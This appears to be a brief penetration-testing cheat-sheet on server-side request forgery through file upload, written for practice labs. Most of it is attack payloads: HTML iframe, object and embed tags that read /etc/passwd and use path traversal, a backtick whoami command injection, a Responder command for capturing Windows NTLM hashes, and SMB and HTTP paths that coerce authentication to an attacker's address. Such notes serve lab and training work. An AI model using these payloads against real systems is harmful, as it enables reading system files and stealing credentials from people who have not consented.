 # SSRF

If you have ssrf, via file upload maybe you can try these things to access files.

```bash
<iframe src="file:///etc/passwd" width="1000" height="2000"/>
<object data="./Process.php" width="300" height="200">
Placeholder Text
</object>
<embed type="text/html" src="../../../../../../../../../../etc/passwd" width="500" height="200"/>
        <p> hi `whoami`</p>
```

If you’re on a windows machine (especially AD), try to get NTLM hashes. Run responder

```bash
responder -i tun0 -vvv
```

You can get hashes through SMB and HTTP (I did it in Heist on OSPG)

```bash
//your_ip/test/
http://your_ip/
```